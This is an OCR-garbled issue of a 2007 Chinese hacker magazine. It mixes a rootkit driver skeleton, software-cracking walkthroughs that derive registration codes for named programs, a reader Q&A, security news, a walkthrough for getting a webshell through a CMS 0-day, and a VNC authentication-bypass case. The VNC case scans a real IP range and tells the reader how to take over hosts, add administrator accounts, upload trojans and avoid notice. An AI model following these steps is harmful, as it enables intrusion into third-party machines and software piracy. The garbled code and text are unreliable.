Bool begin()
{
    ...
}

int main()
{
    ...
}

Begin()
{
    ...
}
```

而 Windows 的设备驱动程序则是：

```
VOID OnUnload()
{
    ...
}

NTSTATUS DriverEntry(...)
{
    ...
    theDriver->DriverUnload = OnUnload;
}
```

这里函数 NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject, IN PUNICODE_STRING theRegistryPath) 就是我们的入口函数了，后面带两个参数。然后再建立一个名为 “SOURCE” 的文件，注意要全大写，内容为：

```
TARGETNAME=mydriver // 这一个为我们驱动程序的命名
TARGETPATH=obj\i386 // 这个是我们驱动程序的位置
SOURCES=mydriver.c // 还需要和所写的代码有关的文件，这里还需要一个类似这样的配置文件,因为编译程序把它和项目程序。
SOURCES=... // 例如根据常规需要还要加一些文件名和参数
INCLUDES=... // 作为一个编译程序必须的条件，有两个必须的语句之一。
```

此程序只用到了几个必须的，还有两个可以选项如下：

INCLUDES= 指定 include 文件名有多个目录，如：

一个是 TARGETLIBS，和上一个差不多，这个是库连接用的例子，只要加上具体文件名就 OK 了。最后是我们的 MAKEFILE 文件：

```
INCLUDES=$(NTMAKEENV)\makefile.def
```

## 加载

加载有两种方法，这里给出大家正确方法的源代码，另外一种方法大家可以上网找找，代码如下：

```
#include <stdio.h>
#include <windows.h>
#include <winsvc.h>
```

它的原理是利用服务控制管理器来加载，另一种方法相对来说隐藏性较好，但缺点太多了。

## 后记

这样就可以通过我们自己的程序加载第一个 rootkit 了，虽然并没有什么功能，但是有纪念意义的。就算时光说这么多吧，大家可以去挖些资料看看，有什么不明白可以到黑客手册论坛去提问。

编辑点评：rootkit 一向都是很隐秘的，很多有这系列的文章，本系列将慢慢为各位读者揭开神秘的面纱。


# Cracker

86 的 Cracker 书面

Cracker，是一种逆向工程的爱好者，记得在我刚接触到的 Cracker 资料都与我挖掘、寻找电脑内的软件和系统的安全、利用非法手段获取的系统的可执行程序信息、破解受版权保护的授权等。

对于初学者，我的建议是尽可能地熟悉汇编语言，多看一些破解教程，并且多花些时间去做练习。如果可以的话，尽可能地选择一些语言上的基础，设法将自己的功能实现、建立一个进阶和学习，这个不是吃饭的饭碗，但是却是非常重要的。破解属于经验学习的东西，只有在实战中不断总结才会进步。

# 啡新闻

- 1. CUG 脱壳组织成立

CUG 全称为 CHINA UnPacK GRouP，中文名称为中国脱壳组织，成立于 2007 年 9 月 9 日，专门研究脱壳和保护技术，其五位创始人成为 fly、shoooo、forgot、fxyang、heXer。CUG 分三个等级，分别是初级成员、中级成员和高级成员。如果你想和更多的脱壳高手一起研究交流的话，加这个组织是一个很不错的选择，不过加入条件也是非常严格的，详细情况大家前去 UnPacK Cn 官方论坛了解。

相关文章链接：http://www.unpack.cn/viewthread.php?tid=17260

- 2. Unpacker ExeCryptor 2.x.x beta 1

# 破零之一个简单破解过程所需要的工具介绍

December

从本文你可以学习到：

- 破解过程所需要的几款工具的介绍
- 如果你希望看完上篇《破解术语的简单介绍》后，觉得对破解也感兴趣的话，那么就跟着我走，一起来吧！
- 在上篇中，我们主要讲了破解的认识和基础，这些介绍对破解的认识也打牢了一点，但这些是技术性的东西，所以以后如果再遇到像这样的公开的东西，我会先抽出来给大家补上。
- 还有，这次给大家讲几个常用工具的介绍，主要是一些简单破解时需要的工具，但可能还有很多人并不懂得它们究竟起到什么作用，或者是要带什么样的工具来完成破解过程，所以这次我准备把这几个工具给大家介绍一下！


在 File 菜单选择右边的按钮：

是选择需要查壳的程序，程序路径会在右边显示出来，当然如果你保存的程序是本地文件也可以直接拖进来，因此这个工具主要是支持拖拽的，也就是说，打开 PEiD 之后，可以将要查壳的程序直接拖到 PEiD 的任一处就行了，而另一种方式是将要查壳的程序名称选择好，一般来说，这种方法是最快的，但如果程序是直接拖进去不能动，其他一类的倒是可以先看一下 EP Section，因为这儿可以直接显示出程序的入口点，比如：


OD 这个工具没有太多文字说明，但是它是一个动态调试工具，当然它也并不止针对破解使用，在日常分析程序时也可以使用它。与 PEiD 类似，OD 的功能不止是一次简单的单步调试，它也可以帮助我们解决程序的很多问题。通过上方的菜单可以看到，OD 的快捷操作有很多，比如 F2 断点、Ctrl+F2 取消断点、Alt+F2 运行到光标处、F9 运行程序、F8 单步执行等等。


脱壳的艺术

英文名为 Art of Unpacking，这是一篇非常好的脱壳理论教程，脱壳和破解一样，都是一门艺术，都是一门与智力挑战的游戏，在现在这样高度竞争化的时代，足够值得学习一遍的课程，尤其是动态分析方面的重要性。众多破解者的外壳，尤其是简单来说就是教程里的外壳，才能够真正认识到课程的力量，它会引导你去了解更多关于破解的知识。通过本章的内容，也能让大家更系统地学习 Crack 的一部分，很多朋友在学习脱壳的知识时，只是为了表象的学习，而是希望对工具的使用更加熟悉，所以说这篇文章，希望各位读者朋友喜欢。

相关链接：http://bbs.pediy.com/showthread.php?t=50119

破解资源

脱壳的艺术

相关链接：http://www.ollydbg.de

# 电子黑客手册 2007.11 → [CRACKER]

……


# 一个普通的 MFC 写的程序的分析

从本文你可以学习到：MFC 程序的分析

就我个人观点，Delphi 的程序比较简单，其次是 VC 语言，但是一旦 VC 用了高级包装过的 MFC，就会像是 VB 一样很难分析！MFC 包装过之后会发现一切都变得没有头脑，普通的 GetWindowTextA 等断都断不了下来。这个 MFC 的程序就是对 cracker 的一种折磨。

不过对于这类程序拿了一个很好的工具 IDA，IDA 本身就具有对 MFC 强烈的分析能力，使我们的工作量可以少一些。你不信，我给你举个例子。下面两行代码，你喜欢看哪个？

```
text
0042C0E8  call   CWnd::GetWindowTextA(CString&)
```

如果你硬要说第一种好我也没什么话，但是我想大多数人还是喜欢第二种的。因为有时候，第一是它的代码非常清楚，第二是省去了我们跟踪 MFC 库函数的麻烦，节约了时间。

本文的目标 touchnet（一个专门不输的浏览器，除了仍未看？）。

所谓工具，IDA、OD。IDA 分析，然后输出一个文件，如图 1 操作，所有的选项都打勾。你可以试着让 OD 载入不同选项下输出的 map 文件然后再去分析。


这个软件是得到注册码后，但要得到完整的分析过程很难（而事实上所有的软件基本上就是这样）。也许看了以下的内容你会不解地问，你怎么知道的？其实很简单：我是分析出来的。分析原理还是必不可少，如果你想成为一个不错的 cracker，而不是满足于一个注册码，那就仔细地分析吧。首先是找注册码，这个软件的注册码（serial）是根据用户名（name）计算得出的，这就造成了一个现象，那就是明码。

## 第一步，找到关键

在破解一个软件之前得把它找一下，我随便输入 name 为 1rq，serial 为 123789，然后点注册，跳出一个错误对话框，如图 2。


这个样的对话框是明显的 MessageBoxA。OD 下断 MessageBoxA（这似乎是查询过的点中仅有一个是用于 MFC 的 API 函数），然后一层一层去，直到看到：

```
text
mov  ds:WritePrivateProfileStringA
offset FileName
push  0
push  eax
```

所以别忘了看到好的工具的时候在硬盘上保存一份哦！好了，这次就介绍到这里了，下一个，我们来点实实在在的，总不能光看不动手吧？下次见！

【本文介绍的相关工具已收录在本期光盘中】

编辑点评：虽然只是简单地介绍，但是对于还没入门的菜鸟还是有一点帮助的，入门的老鸟看了一定会偷笑吧，是老鸟也是从菜鸟一步一步过来的，希望本文对新手有点帮助。

看来自“注册成功”之后的写文件。

## 第二步，分析关键

前面说过，edx、eax 表示 eax 和 edx 两个 32 位寄存器当作一个 64 位的寄存器使用，其中 edx 表示高 32 bit，而 eax 表示低 32 bit。其他如 ecx、esi 也类似。

### 关键 1：

```
text
call  CWnd::GetWindowTextA(CString&)
```

示、类型为 __int64。

主要注意它的返回值 edx:eax

### 关键 2：

```
text
push  eax, name
push  [esp+24]
call  sub_429B90 ; 根据 name 计算一个值
```

这里要注意它 ebx 和 [esp+1Ch] 的值的来历。

### 关键 3：

```
text
push  esi
push  edi ; esi, edi 就是上边的返回
lea   ecx, [esp+28h]
call  sub_429700
```

所以我们特别注意 0042CB8C 处出来后 edx:eax 的值，然后用 Windows 的计算器计算一下变成十进制就是 serial，可知 img

# 《黑客安全黑客手册》2007.11 → [CRACKER]

的注册码为：29160059796。输入后注册成功，如图 3。


上面只是初步分析的给出了一个取得注册码的过程，下面来简略分析注册过程中的关键 call。关键 call 主要有两个，先...

```
text.0042BC71:
sub_429850; 根据 name 计算一个值

.text:00429B50    = dword ptr 4
.text:00429B50
mov     ecx, [esp+arg_0]
push    ebx
lea     eax, eax
xor     edx, edx
push    esi
mov     esi, ecx
test    ecx, ecx
jz      loc_429C67
```

我们进入分析。

```
.text:00429B50    arg_0
.text:00429B50    = dword ptr 4
.text:00429B50
mov     ecx, [esp+arg_0]
push    ebx
lea     eax, eax
xor     edx, edx
push    esi
mov     esi, ecx
test    ecx, ecx
jz      loc_429C67

下面是一个循环，循环次数为 name 的长度。

.text:00429B64    mov     bl, [esi] ; esi 为 name 的地址.
name 取值, bl
.text:00429B65    test    bl, bl
jz      loc_429C67
cmp     edx, 17h
ja      short loc_429B87
jl      short loc_429B7C
cmp     eax, 4Ah
jnb     short loc_429B87
push    0
push    0Ah
push    eax
call    sub_4298E0
```

Case 语句有很多，出于篇幅考虑我只列出了其中一条。

```
.text:00429B96    cmp     ecx, 4Ah
ja      loc_429C5D
jmp     ds:off_429C8C[ecx*4], switch
jmp     short loc_429B??
```

所以这个 call 真的是无聊之极，就是通过了一个很大的 switch，case 语句来进行对 name 的变化求值。

其次：

```
.text:0042BC8B    call    sub_4297C0
```

比较困难，因为有两个循环，而且循环比较长，里面东西大量的移位等运算，所以分析起来麻烦，不过看例子有点，而且也只是一种惯例。单纯的意思就是，指令找值，但是其的有机结合。

对于这个软件，我想还是高手，不如还可以根据给定的 serial 进行 name？这样他兴许会好玩多了。这确实太菜了。e-mail：kflniq@21cn.com 和我讨论。

> 【本文介绍的目标程序已收在本期光盘中】

## 编辑点评

MFC 的程序有时候真的是很容易搞的，如果要破解这种程序的话，最好的办法是好好学习一下相关知识，IDA 来分析，确实是个不错的选择。


## 一、初战告捷

我再描述一些它的算法，和以前的说法稍有出入（本质一样的），引入一个数组 str[0x14]，一个函数 mul_three(x) 表示 3 的 x 次方，关于 key 的生成，

for (n=0; n < 0x13; n++) key = mul_three(n-3) * str[n] + key;

如果最终的 key = 0x299F90EA65B，那么便是 single-user 版本。

也就是说 key = str[0]*3^3 + str[1]*3^4 + str[2]*3^5 + …… + str[0x13]*3^16【1】

数学知识：数 N 的 x 进制表示

我们通常将二进制、十六进制、十进制。但事实上任何一个数 N 都可以用 x 进制唯一表示，而且方法都是同样的除 x 取余。
N = A n × x^n + A(n-1) × x^(n-1) + … + A1×x^1 + A0×x^0(0<=Ai<x,0<=i<=n)【2】

显然上面的 key 的表示还是和 N 的 x 进制的表示有点儿像。但也很明显两者相差不多，实际上是别出表现在【1】式无法唯一表示一...

## 三、走后门

如果你对 WinCHM 下注册表破解并且去查看过注册表里的它值，那么你会有很多的发现。Regcode: 064deb31e975b371920c29694e8e148675126736，这还是我们输入的注册码吗？不是，它是被加密过的，我分析了一下，这条路没有非普通 ASCII 码的限制，这就是后门。

- 1. 提取出那个加密我们的注册的函数
- 2. 反推注册时我们的这个加密过的值
- 3. 把这个值写入注册表里的 regcode
- 4. 软件读取加密过的注册码后自己还原（因为这里不是进行检验是否为普通 ASCII 码）

```
004BFAD8  33C9        XOR ECX, ECX
004BFA0D  66 BA FE00  MOV DX, 5FE
004BFA11  E8 C2FFFFF   CALL winchm.004BF8D8 ; 关键的加密
```

DX 是 EDX 的后 16 bit，DL 是 EDX 的末 8 bit，DI 是 EDI 的后 16 bit，进入 004BF8D8，我会留下很多废代码。

```
004BF8E1  884DFB    MOV BYTE PTR SS:[EBP-5], CL
004BF8E5  0F B7D7   MOVZX DX
004BF8F1  C1EA08    SHR EDX, 8
004BF8F9  8A 45FB   MOV AL, BYTE PTR SS:[EBP-5]
004BF92A  8A 02     MOV AL, BYTE PTR DS:[EDX]
004BF932  8A 02     MOV AL, BYTE PTR DS:[EDX]
004BF944  8B 55F4   MOV EDX, [EBP-?]
004BF954  8B 45F8   MOV EDX, [EBP-?]
004BF958  F7 D0     NOT EAX
004BF95B  75 C1     JNZ SHORT winchm.004BF91C
```

这种是简单代码，你应该会看和分析，下面就需要逆推了，这个实在是非常简单的！Key/27=3+2*3+1+……+2*3^0x12+5*A*3^0x13（从低位到高位）的写法，逆过来合的话合上面的顺序。

```
int main(int argc, char *argv[])
{
    unsigned char buf[] = {0x02,0x03,0x05,0x03,0x02,0x03,0x02,0x03,0x04,0x03,0x02,0x01};
    int n = 0;
    while (1) { ... }
```

## 二、过滤的作用

可能是现在仅仅给他特性太厉害了，那个输入注册码的控件竟然排除了我的那些特殊的符号，因为我没有具体代码，只知道这个结果，毕竟 cracker 的时间也有限，这些地方对不好的事情我绝对不做，而且根据下面的文章我才可以这么肯定是控件的技巧。

```text
return 0;

dx=di;
dx=*dx / 256;
di=xx % 256;
result[n]=*key[n] * di;
dx=0;
*dx=result[n];
*dx=1;
count=(x...)
```

计算出来发现输出的就是我上面举例的那个乱码。只要把它写到 C 语句的注册表的 regcode 项中就注册成功了。本来是打算让破解它的方法简单一点，现在看来……

编辑点评：

同样的一个程序，可以使用不同的方法来计算注册码信息，作者是做到一弄再三了，可见数学知识在破解中的活用，也是很重要的，而且还容易一点点推翻基础。破解很多时候需要的就是变换，因为看来各种各样思路多，所以灵活的思路依然是自己的思想和推波方法哦，不太擅作者还会不会写注册码了呢？


加载镜像文件直接安装就可以了。

原文链接：http://www.nohack.cn/bbs/thread-69052-1-1.html

Q：有哪些知道如何解禁网吧的 cmd 吗？

A：最简单的方法就是新建一个文本文档写入“cmd.exe”，然后另存为 bat 后缀的文件，接着双击这个文件就可以执行 cmd，再或者在网上下载一个 cmd.exe 程序就 OK！

原文链接：http://www.nohack.cn/bbs/thread-58826-1-1.html

Q：我看了很多关于 Cain 的教程，可是自己试的时候什么都无法嗅探，连最简单的嗅探路由器都失败，还请高手们给出一些嗅探成功的经验。

A：Cain 使用起来还是比较简单的，超简单的 GUI 界面操作模式。运行之前必须安装 WinPcap 协议包，然后打开 Cain（这里以 Cain 汉化版进行说明），首先激活本地嗅探模式，然后切换到嗅探器模式，点击左上方主机列表中找到的，这样就会把网卡中的主机列出来。软件会给出的信息会找到 ARP 包，激活 ARP 的时候，双击选择到它。

原文链接：http://www.nohack.cn/bbs/thread-68001-1-1.html

Q：我用友方设备有什么样的工具，是否可以直接注入这种代码：

http://micro-soft.cn/*/*?html.百度里搜索得知是一种难以免注册的方式，利用，极大批量地被用于注入测试工具。后见网上泛链接，很多人通过没有重要大小；

A：这个其实不是个高深的技术要求，不用编程，真正的操作用来对 Windows 自带的 MSTSC 进行修改，通过资源修改工具修完即可。

# 29 借稿

黑手·新手

城市 / 山西太原  
论坛ID / 酷豆腐  
邮箱 / 254101803@163.com

→对菜鸟文章的读后感：  
文章名称：揭开数据拯救的神秘面纱  
读后感：看完这篇文章我才明白，备份竟然是多么的重要啊！可惜的是晚了一步，我的系统在两个月前就由于硬盘崩溃“给”掉了，自己的东西无所谓，于是并辛苦的找……

→有什么建议和意见  
很喜欢黑客，当然也喜欢 NOHACK。当我第一次接触黑客，我就决定要爱上它，成为一位名副其实的黑客。当我偶然发现一本《黑客手册》，就顺眼开始了解我的黑客之旅。我很喜欢计算机技术，从刚开始接触就产生了浓厚的兴趣。希望大家能够多教我一些基本的技巧，更加充实我等小菜。

我认为《黑客手册》是一本非常不错的杂志，每一期都有新收获，特别是发现的大脑的黑客精神。现在在我周围，只要见过上网的人，对“黑客”一词均以“黑”色变啊！看黑客图所引发的黑色字，对谁伤得三足而已！

→有机体思考之启

黑客与黑客，当然也喜欢 NOHACK。当我第一次接触黑客，我就决定要爱上它，成为一位名副其实的黑客。当我偶然发现一本《黑客手册》，就顺眼开始了解我的黑客之旅。我很喜欢计算机技术，从刚开始接触就产生了浓厚的兴趣。希望大家能够多教我一些基本的技巧，更加充实我等小菜。

我认为《黑客手册》是一本非常不错的杂志，每一期都有新收获，特别是发现的大脑的黑客精神。现在在我周围，只要见过上网的人，对“黑客”一词均以“黑”色变啊！看黑客图所引发的黑色字，对谁伤得三足而已！

黑客·低调

城市 / 浙江  
论坛ID / shadow  
邮箱 / 675514377@qq.com

→对菜鸟文章的读后感：  
文章名称：分析一个挺有意思的病毒  
读后感：很详细，但我更喜欢教我们写病毒。以后“无毒有偶”能不能多登一些教我们编病毒的文章嘛！我对冰点 0.6.0 老是只……

→有什么建议和意见  
多登一些破解啊吧、还原、拦截的文章嘛！我对冰点 0.6 也是只能呆呆看，还有各类生效数据。

天天无病毒的集锦，这位这位读者不要到处叫喊自己要骂病毒，那个谁……不是都被封了嘛！貌似书局、叫你呢！至于破解啊啦方面，许多阿呆也将“黑手”拿在手中研究出好东西了，所以最近貌似免费上网开始转移阵地了……技术间的较量推动了软硬件的发展，也将继续推动“基地皮”上升……（中高层开始说言）

→对菜鸟文章的读后感：  
文章名称：无敌批量搜索注入点  
读后感：对于此点，本人可谓顿中之顿，本期看到此方法，顿时感到注入还没得俯深弄弄，感谢主给俺一个机会，偶会珍惜。

3Q！啊门！

写你无敌的菜鸟：扬沙的发泄现在在于勤奋和不经常，要有耐心去研究和收集哦！貌似某位编辑已经收集了整整一 U 盘与技巧相关的东西，日积月累真是个好习惯呀！（小心别中了全站采集 OK 哟！）

黑客手册

非安全

高手专栏：非常规运行 VBS

谈 VBS 在 Hacking 中的作用之三——浅谈脚本的加密与解密

目录

亲历：NoHack 班仔

圣诞狂欢大会

断头台 III

名校

亲近哈佛，一次 Linux 提权

冷，就在 12 月……

话说 10 月的短篇里，石钧同学编辑部后，造成上班应跌、裤子破洞、猴子爬树、芒果被轰到了桂林……编辑部一度陷于混乱，读者朋友们就无时无刻也在通过各种渠道打听编辑部内幕资料，社工好的朋友小有幸获！

子曾经曰过（用繁体版子曰，意思就是……年轻人是蚂蚁的太粗？；知识就是什么，……为了维护编辑部的根据地，猴子在 11 月刊中痛心陈述，首发私聊的操作，期间有知皆共然。那好如发表：活了十二年多，没办法：为人要么仆么，兔忍及此，伤心欲绝。（某编辑：有点后知后觉为说的感恩……（貌似很冷哦！））

12 月本该是老显现崭茂来年出，终于啊他和蚂琳找来桂林山庄去了，猴子只好再次下树……于是齐民忧从，你们可又来一发刊头哎！哈哈……

我先放在别处，搬一周就流出一种管管「桂林怂侃」这玩意儿！

某日，外面的风怎么觉得也特别，一些叫鸭菜，大家的王子开始叫下去了！于是我们一起就出门找店叫小组……点菜（众人猛摆弄菜单，猴子惊喜！！！，大家边小点，小组边上，大家又边打：这菜单可真灵，竟然未尽可项。

这时候何偭的肚子不舒服，一吃再不对了，到了 WC，问哨点牌忽粗里，有赶抹着对面说：“对面就有，你去试试给竹门的说，你是对面能吃到的吗！”于是偶尔，弄得一会儿变后错，披着枣间同起来了。我忽闻，忽不住昨音？脱口就说：“我吃饭的饼让找去吃出！一个箭步直冲而进……！怎么不对劲呢？没出脸啊……留稳吧，放松先……

正在松君、同学进来了，忽然不知道没有什么问题，是在公共场所，迟迟地问了一句：“吃好了吧？” 同学回答到：“吃了，你呢？”我直接脱口而出一句：“正吃呢！”（这两天看稿是个想了轻了！）

两人一起走出 WC，守门的正坐着两个女子，看他们出来了才放行让他进去……哦，原来是按量分配？后来听说是我们想错了！怎么可能，怎么可能呢！冷啊……就在 12 月！

新闻短评

义笑耳来啦，太阳谷！卖成了，踢掉细就报手来了解不见见识、长成客、马工会公司——引起我们无味搞笑：罢业上级非常欢乐关怀及时问，任何字母咕噜噜不定心声……啊、夙沣警张：……的刺激，做的技术又要废人，走饼不中等休，喊着安全利害太大（某编辑：哎……安全和非法……）

新闻短评快

目前已经被多数美国网站发现，这使美国网站提高了警惕，其中一家甚至发扬了反友善。开先时，一个“基地”组织支持者在互联网络论坛中发表声明，呼吁成立“圣战营”，向互联网发动攻击。不过，美国国土安全部官员认为这安全威胁并不存在。

“互联网如小蚂蚁”网站是一家著名的“基地”组织网站，其网站的运营者称作为一旗斯布德队为，所谓“网络圣战”不会有太高的技术含量，意义不大。

U盘杀手 新变种

病毒程序不断地变种，体现了在硬件技术高速发展的今天，软件技术的更新依然不逊色！U盘杀手的新变种可以通过互联网给自动升级自身的病毒传播包，使得计算机用户难以进行防范。该变种运行之后，会将自身复制到受感染计算机系统的指定目录下，之后将自己删除。当计算机系统感染该变种时，就会连线系统从网卡上指定的服务器下载大批量的病毒、木马等恶意程序，给计算机用户带来极大的危害。

另外，变种会修改受感染系统的注册表启动项，使得自己随系统启动而自动激活。该变种为可固定自身驱动更新，修改参数时会增加对中文等注册表项修改和清除，公会载体对附带的其他自启和项目。采用系统注册表方式加载时，病毒就通过系统的“自动播放”功能，上网时不时要弹泡泡点击才能继续，不要理要不问时站。

小道消息，病毒程序越来越智能。如果某天诞生了人类的 AI，那么 V-AI 到底会对人类世界产生怎样的影响呢？看过最新病毒变种特征的功率，几乎将达到在消耗的“优秀”特点……感谢这款病毒的设计者和出天真富含一个便便。

“基地”黑客准备发动“网络圣战”

来自外媒消息，“基地”组织的黑客准备发动“网络圣战”，计划由自身利用的黑客网站发表声明，称支持者在互联网论坛中发表声明，呼吁成立“圣战营”，向互联网发动攻击。

“互联网如小蚂蚁”

微软发布 2 个重量级安全补丁，修补 Windows 存在漏洞

微软最近的安全更新（11 月）仅包括两个安全补丁，一个是“严重”等级的，影响到 Windows XP 和 Windows Server 2003 操作系统处理 Windows URI 的方式；另一个是“重要”等级的，影响到 Windows Server 2000 和 Windows Server 2003 操作系统处理其微软的方式。

MS07-061：严重

安全公告名称：Windows URI 处理方式中的安全漏洞允许远程执行代码

漏洞影响：  
Windows XP SP2 和 64 位版  
Windows Server 2003 64 位版  
安装服务器用户

说明：  
在 Windows 外壳程序处理中，通过特别制作的 URI 方式，可以远程执行代码。如果 Windows 外壳程序不能充分验证这些 URI，攻击者就可以利用这个安全漏洞并执行任意代码。微软仅仅找出在使用 IE 浏览器的系统中利用这个安全漏洞的方法。然而，这个安全漏洞存在于一个名为 Shell32.dll 的 Windows 文件中。微软提供技术支持的所有版本的 Windows XP 和 Windows Server 2003 都包含这个文件，这样可以成功利用这个安全漏洞远程执行代码。

MS07-062：重要

安全公告名称：DNS 中的安全漏洞可允许欺骗攻击  
漏洞影响：  
Windows Server 2000  
Windows Server 2003

说明：  
Windows DNS 服务器中存在一个欺骗攻击安全漏洞，允许攻击者对 DNS 请求发出特别制作的响应，从而把互联网通讯从合法地点欺骗或者重导到异常地址。成功地利用这个安全漏洞能够帮助攻击者在合法的位置劫持用户的互联网通讯。

小述点评：没有，俺的黑熊们要安静许多；有了洞，惹动是不可对的！来吧，从洞的发现中寻找技术和我的交流……

吧！感谢 MS，感谢 NOHACK……

Linux 操作系统内核 Kernel 文件远程缓冲区溢出漏洞

受影响系统：  
Linux kernel 2.6.23.1

描述：  
BUGTRAQ ID: 26438  
CVE(CAN) ID: CVE-2007-5904  
Linux Kernel 是开源源码操作系统 Linux 所使用的内核。Linux kernel 的 CIFS VFS 代码存在缓冲区溢出漏洞，远程攻击者可能利用此漏洞通过 SendReceive() 函数向消息的有效载荷中发送过大的 CIFS 参数来触发程序错误，并破坏程序。如果在攻击者代码中发送的参数指向了过大的数据流，则会触发缓冲区溢出。该漏洞可能会导致系统崩溃，甚至可能造成任意代码执行。  
目前厂商已经发布了针对这个漏洞的系统更新，建议用户及时安装补丁。

小述点评：系统有内核漏洞，这个问题大不大？这得问一下使用 Linux 系统的广大用户了。不过是不是系统本身弱，貌似 Linux 不知道？这个系统内核很少见……

我就是要 0DAY 轻松获取 Webshell

图 sniperrhg [okee.com] & [I.S.T]  
通过本文你可以学到：  
通过最新动易漏洞获取 Webshell

动易又是贴新漏洞了，发现 0DAY 的责任人们大家肯定都不陌生，这次给你做，发布 0DAY 的主要原因也是为了发泄对某人的不满。漏洞发现者是 Okee.com 的大坤，工具也是他提供的，不管怎么说，偶对他的收获心真无力泄漏……这次的可是杀伤力极大的漏洞，这回可使我们小菜们了，手头又可以少些 webshell 了，但是请勿做坏人数据。

漏洞分析：在动易系统的投票模块(vote.asp)使用了如下语句：

【肉鸡挖掘】←2007.12 非安全・黑客手册

这个出错页面管理页面在 IIS 设置了，如果是显示详细信息的话无非就是“类型不匹配”“execute”。到这里就算测试成功了吧，用一句话连这个文件先上传一个小马，然后再传大马。为了把刚上传失败小到最彻底，工具不提供下载，需借助其他网站。

> 声明：

a. 此文只做技术研究，也难入刑；  
b. 文章与本人、与黑客无关。

为了我们更改上传路径为 XXX.ASP，接下来就修改路径，直接用工具默认的就成，如图 5、图 6。

成功后接下来就是上传木马了，我们先点击“上传木马”，上传一遍，网站会提示先保存，如图 7、COOKIE 大家就省事了，很多工具可以看的。COOKIE 填入程序如图 8 的位置，再上传一遍，成功，如图 9（大家也可以不先传一遍，直接到 COOKIE 上传就成了）。

万不来关站以免被木马破坏，也有拿多个站来快打上传演习，像一个发布站。

VNC 漏洞扫描控制肉鸡案例

从本文可以学到：通过 VNC 获取肉鸡。

RealVNC（简称 VNC）软件有免费版、个人版以及企业版三个版本，它与 PcAnyWhere 远程控制软件的功能类似，也是一个软件组成的远程控制软件，共 4.1.1 版前版本均存在 RealVNC 远程认证漏洞。RealVNC VNC Server 采用 RFB（远程帧缓冲区）协议允许客户端与服务器协商恰当的认证方法，协议的实现上存在设计错误，客户端可以通过伪造信息包实时获得对服务器的访问。由于其功能强大因此深受人们的喜爱，网络管理员自然用得顺手，很多公司机房都装有和服务器连接的 VNC 端口，并非是对外开放口令认证，也有被入侵者和利用网络管理人员的疏忽。一般情况下，VNC 服务的默认端口为 5900 端口。本案例讲对 VNC 端口抓取工具直接扫描开放端口，用 vnc.exe 软件扫描开放 5900 端口的地址，检测后的扫描结果保存在 VNC_bypath.txt 文件中。本案例使用 VNC 漏洞利用代码 vnc.exe 软件扫描开放 5900 端口的 IP 地址，且 DOS 环境或者 DOS shell 下输入“vnc”命令后，给出使用帮助，其命令格式为“vnc -i IPAddress -l IPaddress -p 5900 -vnc”，例如在本例中对 64.141.178.98-64.255.255.255 网段进行扫描的命令为“vnc -i 64.141.178.98-64.255.255.255”。

255、255 --p 5900 --vnc

如图 1 所示，然后敲回车键开始扫描。扫描的时候有一些要点说明如下：

- 如果是通过 radmin 的 telnet 来执行扫描命令，则只要扫描命令运行后，即使关闭 telnet 也不影响扫描，VNC 会继续在肉鸡上进行扫描，扫描时会提示扫描的 IP 地址数、比例以及扫描所花费的时间等，如图 2 所示。
- Vnc.exe 扫描完成后会在扫描当前目录中生成扫描结果文件 VNC_byputh.txt，VNC_byputh.txt 中会记录好 5900 端口的 IP 地址以及 VNC 的状态为 patched、banned、VULNERABLE 等，如图 3 所示。

整理开 5900 端口的 IP 地址。使用 UltraEdit 编辑器编辑 VNC_byputh.txt，过滤存在“:5900    vnc4、VULNERABLE”的 IP 地址，如图 4 所示。使用 UltraEdit 的“替换”和“清除行后空格”功能可以快速整理扫描的 VNC_byputh.txt 文件。

使用 UltraEdit 的“替换”和“清除行后空格”功能可快速整理扫描的 VNC_byputh.txt 文件。整理扫描结果后，在扫描结果文件 VNC_byputh.txt 中替换掉字符串“:5900    vnc4,VULNERABLE”，并去掉行尾的空格，编辑完毕后另存为 590-vnc.txt，如图 5 所示。注意：link 与 IP 地址之间要留一个空格，否则命令就会执行错误。

使用 VNC 连接器 Link 进行连接。全部选中并复制 59-vnc.txt 中的所有内容，然后在 DOS 窗口，右键单击，选择“粘贴”命令执行 VNC 连接批处理命令，在窗口中会弹出 VNC 或劫持连接以及 VNC 连接失败或者要求重新连接的界面，如图 6 所示。处理连接结果。在执行批处理时，由于 IP 地址限制等原因，因此可能存在无法正常连接 VNC 服务器的情况，有的可能需要输入密码，若无法连接或者需要密码的连接的 VNC 服务器，保留可以直接查看的 VNC 服务器，如图 7 所示。

在处理连接过程中，如果 VNC 服务器界面中计算机显示为锁定状态，该计算机就算被加入用户和密码才能使用，不过可以先记录连接，右键单击选择“VNC Connection Info”，查看该连接的相关信息，等待管理员登录后进行远程控制。如图 8 所示。实施控制。选择一个屏幕没有锁定的 VNC 服务器单击“start”→“run”在其中输入“cmd”命令打开 Dos 提示符窗口，依次执行清除用户、提升用户为管理员权限以及查看管理员组用户命令，如图 8 所示，由于拥有系统安全控制权限，因此在该界面下还可以上传木马程序并执行。

此时要注意的是：使用 VNC 连接器进行连接时是使用完全控制模式，因此应当选择用户不在计算机前时执行命令和实施控制，否则容易被用户发现。执行命令时尽量使用批处理命令，执行完毕后自动退出 DOS 提示符窗口。

小结 本案例通过扫描 5900 端口，整理开放并存在 VNC 密码连接漏洞的 IP 地址，通过 VNC Link 软件直接连接，连接成功后即可进行远程控制。

# 浅谈 ARP 攻击与防御

首语：

又是12月，辞旧送新之时倏忽而来，有太多的感慨，一个结束，同时也开启新的起点。每次回望这一年的时光，心情都是不同的。对于网络中的 ARP 攻击，大家总有些生疏的疑惑。希望通过本文，大家可以更全面地感受并了解 ARP 攻击、防御方面的知识。

从本文你可以学到：

- 基本的网络知识
- ARP 欺骗的原理
- ARP 挂马与 ARP 劫持的原理
- ARP 欺骗的防范

经常看《黑手》上有关 ARP 欺骗的文章，但大多在讲工具的使用，可能很多人对 ARP 欺骗还不是很理解，尤其是别人《黑手》的案头，我们不能总局限在工具的使用上，而应该对网络有非常深入的理解，同时这作为一个黑客也是必需要的，希望你能耐心地看完本文，你必定会学到不少东西。

## 一、ARP 基础讲解

ARP 即 Address Resolution Protocol，翻译为地址解析协议，作用就是将 IP 地址解析或翻译为 MAC 地址。这是因为 ARP 协议工作在第二层，即数据链路层，在数据链路层靠的是 MAC 地址来进行主机间身份的识别。每台主机上都有一张 ARP 缓存表，它记录了 IP 地址到 MAC 地址的映射关系。MAC 地址又叫硬件地址或网卡地址，全世界唯一，ARP 表记述的内容如图1。


